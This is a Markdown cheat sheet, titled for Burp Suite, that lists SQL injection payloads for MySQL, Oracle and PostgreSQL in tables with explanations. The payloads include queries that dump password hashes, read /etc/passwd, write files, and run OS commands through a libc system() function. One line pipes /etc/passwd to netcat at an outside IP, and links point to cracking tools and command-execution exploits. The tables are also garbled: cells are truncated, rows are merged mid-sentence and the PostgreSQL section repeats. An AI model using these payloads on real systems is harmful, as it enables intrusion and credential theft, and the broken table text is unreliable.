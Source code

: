```yaml
---
title: Burp Suite Cheat sheet
date: 2023-12-18 15:01:35 +0300
draft: false
image: 'https://wallpaperaccess.com/full/5927932.jpg'
---
```

# **MySQL SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT @@version | Retrieves the version of the MySQL server. |
| Comments | SELECT 1; #comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries. Single-line and multi-line comments are shown. |
| Current User | SELECT user();<br>SELECT system_user(); | Retrieves the current MySQL user and the system user that the MySQL server is running as. |
| List Users | SELECT user FROM mysql.user; — priv | Lists all users in the MySQL database. Requires administrative privileges. |
| List Password Hashes | SELECT host, user, password FROM mysql.user; — priv | Retrieves host, username, and password hashes from the MySQL user table. Requires administrative privileges. |
| Password Cracker | http://www.openwall.com/john/ | Suggests a tool for cracking MySQL password hashes. |
| List Privileges | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — priv<br>SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv | Lists various user privileges. The first query lists privileges from the information_schema database, while the second query lists detailed privileges for each user from the mysql.user table. Both require administrative privileges. |
| List DBA Accounts | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';<br>SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; — priv | Lists database administrator accounts. The first query checks user privileges in the information_schema, and the second query checks the Super_priv column in mysql.user. Both require administrative privileges. |
| Current Database | SELECT database() | Retrieves the name of the current database. |
| List Databases | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0<br>SELECT distinct(db) FROM mysql.db — priv | Lists all databases. The first query lists schemas for MySQL version 5.0 and above, while the second query retrieves databases from the mysql.db table and requires administrative privileges. |
| List Columns | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists columns in all tables, excluding system tables, in the information_schema database. |
| List Tables | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists all tables, excluding system tables, in the information_schema database. |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; | Finds tables that contain a column named ‘username’ in the information_schema database. |
| Select Nth Row | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0<br>SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0 | Selects the Nth row from a table. The OFFSET keyword is used to specify which row to start from. |
| Select Nth Char | SELECT substr('abcd', 3, 1); # returns c | Selects the Nth character from a string. In this example, it returns the 3rd character from the string 'abcd'. |
| Bitwise AND | SELECT 6 & 2; # returns 2<br>SELECT 6 & 1; # returns 0 | Demonstrates the use of bitwise AND operation in SQL. In these examples, it performs a bitwise AND on the numbers 6 and 2, and 6 and 1, respectively. |
| ASCII Value -> Char | SELECT char(65); # returns A | Converts an ASCII value to its corresponding character. In this example, ASCII 65 is converted to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); # returns 65 | Converts a character to its corresponding ASCII value. In this example, 'A' is converted to ASCII 65. |
| Casting | SELECT cast('1' AS unsigned integer);<br>SELECT cast('123' AS char); | Demonstrates how to cast data types in SQL. The first query casts the string '1' to an unsigned integer, and the second query casts the string '123' to a character data type. |
| String Concatenation | SELECT CONCAT('A','B'); #returns AB<br>SELECT CONCAT('A','B','C'); # returns ABC | Shows how to concatenate strings in SQL. The first query concatenates 'A' and 'B', and the second query concatenates 'A', 'B', and 'C'. |
| If Statement | SELECT if(1=1,'foo','bar'); — returns 'foo' | Demonstrates the use of an IF statement in SQL. This query checks if 1 equals 1 and returns 'foo'; otherwise, it would return 'bar'. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A | Demonstrates the use of a CASE statement in SQL. This query checks if 1 equals 1 and returns 'A'; otherwise, it would return 'B'. |
| Avoiding Quotes | SELECT 0x414243; # returns ABC | Shows how to use hexadecimal values to avoid quotes in SQL queries. This query returns the string 'ABC' from its hexadecimal representation. |
| Time Delay | SELECT BENCHMARK(1000000,MD5('A'));<br>SELECT SLEEP(5); # >= 5.0.12 | Introduces methods to create a time delay in SQL queries. The BENCHMARK function repeats an operation a specified number of times, and SLEEP pauses execution for a specified number of seconds. |
| Make DNS Requests | Impossible? | Notes that making DNS requests through MySQL is generally not possible. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_udf.c | Explains how to execute OS commands via MySQL under certain conditions, by uploading a shared object file into the server's library directory. Requires administrative privileges and specific server configurations. |
| Local File Access | ...' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.<br>SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system | Demonstrates how to access local files through SQL queries. The first query reads a file, and the second writes to a file. Both require administrative privileges. |
| Hostname, IP Address | SELECT @@hostname; | Retrieves the hostname of the MySQL server. |
| Create Users | CREATE USER test1 IDENTIFIED BY 'pass1'; — priv | Creates a new user in MySQL with the specified password. Requires administrative privileges. |
| Delete Users | DROP USER test1; — priv | Deletes a user from MySQL. Requires administrative privileges. |
| Make User DBA | GRANT ALL PRIVILEGES ON . TO test1@'%'; — priv | Grants a user all privileges on all databases and tables, effectively making them a DBA. Requires administrative privileges. |
| Location of DB files | SELECT @@datadir; | Retrieves the directory where database files are stored in the MySQL server. |
| Default/System Databases | information_schema (>= mysql 5.0)<br>mysql | Lists default and system databases in MySQL. 'information_schema' is available from MySQL version 5.0 and above, and 'mysql' is the system database that contains user and privilege information. |

# Oracle SQL Injection

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';<br>SELECT banner FROM v$version WHERE banner LIKE 'TNS%';<br>SELECT version FROM v$instance; | Retrieves the version of the Oracle database. The first query gets the Oracle DB version, the second gets the Oracle TNS Listener version, and the third gets the instance version. |
| Comments | SELECT 1 FROM dual — comment | Demonstrates how to use comments in SQL queries in Oracle. 'dual' is a special table used in Oracle. |
| Current User | SELECT user FROM dual | Retrieves the current user of the Oracle database. |
| List Users | SELECT username FROM all_users ORDER BY username;<br>SELECT name FROM sys.user$; — priv | Lists all users in the Oracle database. The first query lists usernames from the all_users view, and the second query, which requires administrative privileges, lists users from the sys.user$ table. |
| List Password Hashes | SELECT name, password, astatus FROM sys.user$ — priv, <= 10g. astatus tells you if acct is locked<br>SELECT name,spare4 FROM sys.user$ — priv, 11g | Retrieves user names and password hashes from the Oracle database. The first query is for Oracle versions up to 10g and includes account status, while the second query is for version 11g. Both require administrative privileges. |
| Password Cracker | http://www.red-database-security.com/software/checkpwd.html | Suggests a tool for cracking Oracle password hashes. |
| List Privileges | SELECT * FROM session_privs; — current privs<br>SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP'; — priv, list a user’s privs<br>SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY'; — priv, find users with a particular priv<br>SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS; | Lists privileges of users in the Oracle database. The first query lists current session privileges, the second lists privileges of a specific user, the third finds users with a particular privilege, and the fourth lists roles granted to users. The last three queries require administrative privileges. |
| List DBA Accounts | SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES'; — priv, list DBAs, DBA roles | Lists database administrator accounts in Oracle. This query finds users with administrative privileges and requires administrative privileges itself. |
| Current Database | SELECT global_name FROM global_name;<br>SELECT name FROM v$database;<br>SELECT instance_name FROM v$instance;<br>SELECT SYS.DATABASE_NAME FROM DUAL; | Retrieves the name of the current Oracle database. Each query provides a different way to obtain the current database or instance name. |
| List Databases | SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)<br>— Also query TNS listener for other databases. See http://www.jammed.com/~jwa/hacks/security/tnscmd/tnscmd-doc.html (services | status). |
| List Columns | SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';<br>SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo'; | Lists columns in Oracle tables. The first query lists columns of a specified table, and the second query specifies both table and owner. |
| List Tables | SELECT table_name FROM all_tables;<br>SELECT owner, table_name FROM all_tables; | Lists all tables in Oracle. The first query lists table names, and the second includes the owner of each table. |
| Find Tables From Column Name | SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%'; — NB: table names are upper case | Finds Oracle tables that contain a specific column. The query lists tables with a column name like '%PASS%'. Note that Oracle table names are usually in uppercase. |
| Select Nth Row | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1) | Retrieves the Nth row from a result set in Oracle. This example gets the 9th row from the all_users table. Oracle rows are numbered starting from 1. |
| Select Nth Char | SELECT substr('abcd', 3, 1) FROM dual; — gets 3rd character, ‘c’ | Retrieves the Nth character from a string in Oracle. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT bitand(6,2) FROM dual; — returns 2<br>SELECT bitand(6,1) FROM dual; — returns 0 | Demonstrates the use of bitwise AND in Oracle. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65) FROM dual; — returns A | Converts an ASCII value to its corresponding character in Oracle. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A') FROM dual; — returns 65 | Converts a character to its corresponding ASCII value in Oracle. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 AS char) FROM dual;<br>SELECT CAST('1' AS int) FROM dual; | Demonstrates how to cast data types in Oracle SQL. The first query casts the number 1 to a character, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements | Demonstrates the use of an IF statement in Oracle, using PL/SQL. This example uses dbms_lock.sleep for a conditional time delay. Note that IF statements are typically used in PL/SQL blocks rather than directly in SELECT statements. |
| Case Statement | SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br>SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2 | Demonstrates the use of a CASE statement in Oracle SQL. The first query returns 1 if the condition is true (1=1), and the second returns 2 if the condition is false (1=2). |
| Avoiding Quotes | SELECT chr(65) |  |
| Time Delay | BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — if reverse looks are slow<br>SELECT UTL_INADDR.get_host_address('blah.attacker.com') FROM dual; — if forward lookups are slow<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; — if outbound TCP is filtered / slow<br>— Also see http://technet.microsoft.com/en-us/library/cc512676.aspx to create a time delay | Introduces methods to create a time delay in Oracle SQL. The DBMS_LOCK.SLEEP function pauses execution, but it's generally not embeddable in a SELECT statement. Other methods involve slow network operations. |
| Make DNS Requests | SELECT UTL_INADDR.get_host_address('google.com') FROM dual;<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; | Demonstrates how to make DNS requests in Oracle SQL. The first query resolves an IP address, and the second makes an HTTP request. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql | Provides a link to an exploit that can be used to execute commands in Oracle under certain conditions. |
| Local File Access | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can sometimes be used. Check that the following is non-null: SELECT value FROM v$parameter2 WHERE name = 'utl_file_dir';<br>http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can be used to read and write files if installed (not available in Oracle Express). | Provides links to exploits that can be used for local file access in Oracle. The first exploit checks the 'utl_file_dir' parameter, and the second exploit can be used to read and write files. |
| Hostname, IP Address | SELECT UTL_INADDR.get_host_name FROM dual;<br>SELECT host_name FROM v$instance;<br>SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — gets hostnames | Retrieves the hostname and IP address of the Oracle server. The queries use different functions and views to obtain this information. |
| Location of DB files | SELECT name FROM V$DATAFILE; | Retrieves the locations of database files in Oracle. This query lists the data files as seen in the V$DATAFILE view. |
| Default/System Databases | SYSTEM<br>SYSAUX | Lists default and system databases in Oracle. 'SYSTEM' and 'SYSAUX' are key system tablespaces in Oracle. |
|  |  |  |

# **Postgres SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT version() | Retrieves the version of the PostgreSQL database. |
| Comments | SELECT 1; --comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries in PostgreSQL. Both -- and /* */ are used for commenting. |
| Current User | SELECT user;<br>SELECT current_user;<br>SELECT session_user;<br>SELECT usename FROM pg_user;<br>SELECT getpgusername(); | Retrieves the current user of the PostgreSQL database. Multiple ways are shown to get the username, including from the pg_user system table. |
| List Users | SELECT usename FROM pg_user | Lists all users in the PostgreSQL database. pg_user is a system catalog view that shows user information. |
| List Password Hashes | SELECT usename, passwd FROM pg_shadow -- priv | Retrieves user names and password hashes from the PostgreSQL database. This query requires administrative privileges and is run on the pg_shadow table, which contains information about users. |
| Password Cracker | http://pentestmonkey.net/blog/cracking-postgres-hashes/ | Suggests a tool for cracking PostgreSQL's MD5-based password hashes. |
| List Privileges | SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user | Lists privileges of users in the PostgreSQL database. The query shows which users have privileges like creating databases, superuser access, and catalog update permissions. |
| List DBA Accounts | SELECT usename FROM pg_user WHERE usesuper IS TRUE | Lists database administrator accounts in PostgreSQL. This query finds users with superuser privileges. |
| Current Database | SELECT current_database() | Retrieves the name of the current PostgreSQL database. current_database() is a function that returns the database name. |
| List Databases | SELECT datname FROM pg_database | Lists all databases in PostgreSQL. pg_database is a system catalog that contains information about databases. |
| List Columns | SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') | Lists columns in PostgreSQL tables. This query joins several system catalogs to list columns in tables in the 'public' schema. |
| List Tables | SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r','') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid) | Lists all tables in PostgreSQL. This query filters out system tables and lists user-defined tables. |
| Find Tables From Column Name | SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%password%'; | Finds PostgreSQL tables that contain a specific column. This query is useful for identifying tables with columns containing specific names, such as those related to passwords. |
| Select Nth Row | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; -- rows numbered from 0<br>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1; | Retrieves the Nth row from a result set in PostgreSQL. This example demonstrates getting the first and second rows from the pg_user table. PostgreSQL rows are numbered starting from 0. |
| Select Nth Char | SELECT substr('abcd', 3, 1); -- returns c | Retrieves the Nth character from a string in PostgreSQL. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT 6 & 2; -- returns 2<br>SELECT 6 & 1; -- returns 0 | Demonstrates the use of bitwise AND in PostgreSQL. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Explains that IF statements are typically used inside PL/pgSQL functions in PostgreSQL and are not directly applicable for SQL injection. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL. This query returns 'A' if the condition (1=1) is true. |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf. | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution, and the second query demonstrates creating a custom sleep function. Note that the creation of a custom function requires administrative privileges. |
| Make DNS Requests | Generally not possible in postgres. However if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, the dblink function or OS-level commands (for users with DBA rights) can be used for this purpose. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user | Demonstrates how to execute system commands in PostgreSQL. This requires creating a user-defined function in C and is generally possible only with administrative privileges. The commands are executed with the privileges of the PostgreSQL server process. |
| Local File Access | CREATE TABLE mydata(t text);<br>COPY mydata FROM '/etc/passwd'; -- priv, can read files which are readable by postgres OS-level user<br>... UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; -- get data back one and the second returns 0. |  |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL SQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Notes that IF statements in PostgreSQL are typically used inside PL/pgSQL functions and are not directly applicable for SQL injection. The CASE statement is suggested as an alternative. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL SQL. This query returns 'A' if the condition is true (1=1). |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf . | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution for a specified number of seconds. The second method involves creating a custom sleep function using C language. This requires administrative privileges. |
| Make DNS Requests | Generally not possible in PostgreSQL. However, if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<br>SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);<br>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, with certain extensions or DBA rights, there are workarounds like using dblink or OS-level commands. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user |